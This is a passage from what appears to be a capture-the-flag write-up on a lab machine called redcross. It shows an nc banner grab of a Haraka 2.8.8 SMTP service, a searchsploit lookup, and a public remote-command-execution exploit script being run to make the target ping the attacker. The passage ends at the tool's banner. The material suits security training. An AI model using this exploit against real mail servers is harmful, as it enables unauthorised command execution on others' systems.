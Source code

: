 I'll notice when I got increased network access, port 1025 was now
listening. `nmap` didn't identify it, but a patient `nc` connection
will:



    root@kali# nc 10.10.10.113 1025
    220 redcross ESMTP Haraka 2.8.8 ready
    421 timeout  



#### Exploit

There's an exploit for this version of Haraka:



    root@kali# searchsploit haraka
    ------------------------------------------- ----------------------------------------
     Exploit Title                             |  Path
                                               | (/usr/share/exploitdb/)
    ------------------------------------------- ----------------------------------------
    Haraka < 2.8.9 - Remote Command Execution  | exploits/linux/remote/41162.py
    ------------------------------------------- ----------------------------------------
    Shellcodes: No Result



I used this script without modification. First, I got the target to ping
me:



    [HARAKIRI SUCCESS] SMTPDataError is most likely an error unzipping the archive, which is what we want [Error unpacking archive]                                                                                            
    root@kali# python 41162.py -c "ping -c 1 10.10.14.14" -t penelope@redcross.htb -m 10.10.10.113                                                                                          
    ##     ##    ###    ########     ###    ##    ## #### ########  ####
    ##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
    ##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
    ######### ##     ## ########  ##     ## #####     ##  ########   ##
    ##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
    ##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
    ##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####
